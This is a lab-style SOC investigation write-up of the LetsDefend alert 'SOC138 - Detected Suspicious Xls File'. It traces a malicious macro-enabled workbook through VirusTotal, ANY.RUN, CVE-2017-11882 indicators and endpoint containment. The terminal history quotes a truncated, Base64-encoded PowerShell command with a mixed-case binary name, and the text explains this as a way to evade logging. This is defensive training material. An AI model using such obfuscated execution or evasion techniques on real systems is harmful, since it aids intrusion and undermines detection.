





# SOC138 - Detected Suspicious Xls File

---

**Platform:** LetsDefend

**Alert:** SOC138 - Detected Suspicious Xls File

**Endpoint:** Sofia (172.16.17.56)

**Date:** 2021-03-13

---

## Summary

This investigation covers a LetsDefend SOC alert for a suspicious `.xlsm` file allowed through to an endpoint. 

---

## 1. Alert overview

The alert fired on file `ORDER SHEET & SPEC.xlsm`, delivered to host **Sofia** (`172.16.17.56`) and allowed through by the device.

|Field|Details|
|---|---|
|Event ID|77|
|Event Time|Mar 13, 2021, 08:20 PM|
|Rule|SOC138 - Detected Suspicious Xls File|
|Level|Security Analyst|
|Source Address|172.16.17.56|
|Source Hostname|Sofia|
|File Name|ORDER SHEET & SPEC.xlsm|
|File Hash|`7ccf88c0bbe3b29bf19d877c4596a8d4`|
|File Size|2.66 MB|
|Device Action|Allowed|



A `.xlsm` is a macro-enabled Excel workbook, the `m` in the extension is the tell. Macro-enabled Office files are a common delivery format since a macro can run arbitrary code the moment the document is opened, so this alone was reason to dig further.

---

## 2. Endpoint review

Checked the host record for **Sofia** to understand what it was and who used it.

`Hostname:     Sofia`

`Domain: LetsDefend`

`IP Address: 172.16.17.56`

`OS: Windows 10 (64-bit)`

`Client/Server: Client`

`Primary User: Sofia2020`

`Last Login: Oct 25, 2020, 11:44 PM`




Pulled the terminal history for the host to see if the user had interacted with the file directly:

```text
2020-10-18 12:17   cd
2020-10-18 12:18   dir
2020-10-18 22:17   PowerSheLL -ENCOD IAAgAHMAZQB0ACoASQBUAEUATQAgAHYAYQByAGkAQQBCAEwAZQA6AGsAegBlAgIAFEAbABVACAAIAAoAFsAdABZAFAAZQBd...
```

That third line stood out. It's PowerShell with a mixed-case binary name (`PowerSheLL`) and a Base64-encoded command via `-ENCOD` (`-EncodedCommand`). Mixed-case `powershell.exe` plus encoded payloads is a known technique to dodge simple string-matching logging/AMSI detections. This told me the macro wasn't just dropping a file — it was executing PowerShell on the endpoint.

---

## 3. Static analysis — VirusTotal

Took the file hash and checked it against VirusTotal.

**44 / 62** security vendors flagged the file as malicious.

```text
Popular threat label: trojan.acao/docdl
Family labels:        acao, docdl, valyria
Threat categories:    trojan, dropper, downloader
```



VirusTotal's code insights flagged the embedded macro as **obfuscated** — variable and function names deliberately mangled to make the code hard to read. The behavior tags on the sample line up with a weaponized document:

- `macros`, `auto-open`, `macro-run-file` — the payload runs automatically on open, no user interaction beyond opening the file.
- `detect-debug-environment`, `long-sleeps` — sandbox/analysis evasion.
- `executes-dropped-file`, `run-file`, `run-dll` — the macro drops and executes a secondary payload.
- `cve-2017-11882` — this is the signature finding. CVE-2017-11882 is a memory-corruption remote code execution bug in the legacy Office Equation Editor (`EQNEDT32.EXE`), still one of the most abused Office exploits because it needs no macros enabled to trigger — an embedded equation object is enough.

This confirms the file isn't just a document with a risky macro — it's carrying a known RCE exploit.

---

## 4. Dynamic analysis — ANY.RUN

Detonated the sample in ANY.RUN to confirm behavior against a live Windows 10 VM.

**Verdict: Malicious activity**

```text
Tags: phishing, phish-doc, arch-doc
MITRE: T1566.001 - Spearphishing Attachment
"Phishing document has been detected"
```

The process tree showed the file opened twice (once from an extracted WinRAR temp path, once from the Desktop), and in both cases `EXCEL.EXE` spawned `DWWIN.EXE`:

```text
WinRAR.exe → EXCEL.EXE ("...\ORDER SHEET & SPEC.xlsm") → DWWIN.EXE
EXCEL.EXE ("C:\Users\admin\Desktop\ORDER SHEET & SPEC.xlsm") → DWWIN.EXE
```



`DWWIN.EXE` is the legacy Windows "Dr. Watson" crash-reporting handler. Seeing it spawn right after Excel opens the file is consistent with CVE-2017-11882 exploitation — the Equation Editor component crashes as part of triggering the memory-corruption bug and handing off execution to the attacker's shellcode, and Windows catches that crash with `DWWIN.EXE`. This matched what the terminal history already suggested: the document wasn't just displaying content, it was executing code on the host.

---

## 5. Containment

With static and dynamic analysis both confirming malicious behavior tied to a known exploit, and terminal history showing an encoded PowerShell execution on the endpoint, I escalated to containment.

Selected the matching threat indicator for the case:



> Unknown or unexpected outgoing internet traffic

Containment was enabled on the **Sofia** endpoint to isolate it from the network, and the case was closed as a confirmed malicious incident.

---

## Findings

- Alert: malicious macro-enabled `.xlsm` (`ORDER SHEET & SPEC.xlsm`) delivered to and allowed on host **Sofia** (`172.16.17.56`).
- VirusTotal: 44/62 vendors flagged the file malicious; tied to **CVE-2017-11882** (Office Equation Editor RCE) with an obfuscated auto-run macro.
- Terminal history confirmed execution: mixed-case, Base64-encoded PowerShell launched on the endpoint shortly after the file's delivery window.
- ANY.RUN detonation confirmed the chain: Excel opens the file → Equation Editor component crashes (`DWWIN.EXE`) → exploit executes.
- Endpoint contained; case closed as malicious.

---

## MITRE ATT&CK Mapping

| Tactic          | Technique                                                 | Attacker Activity                                                              |
| --------------- | --------------------------------------------------------- | ------------------------------------------------------------------------------ |
| Initial Access  | Phishing: Spearphishing Attachment (T1566.001)            | Malicious `.xlsm` delivered to the endpoint                                    |
| Execution       | Exploitation for Client Execution (T1203)                 | CVE-2017-11882 triggered via embedded Equation Editor object                   |
| Execution       | Command and Scripting Interpreter: PowerShell (T1059.001) | Encoded PowerShell command run on the endpoint                                 |
| Defense Evasion | Obfuscated Files or Information (T1027)                   | Obfuscated macro code and Base64-encoded PowerShell payload                    |
| Defense Evasion | Impair Defenses (T1562)                                   | Mixed-case binary name / encoded command used to evade logging-based detection |

---

## Tools Used

- LetsDefend SIEM (alert detail, endpoint terminal history, containment)
- VirusTotal (hash lookup, vendor detections, code insights)
- ANY.RUN (dynamic detonation, process tree, MITRE tagging)
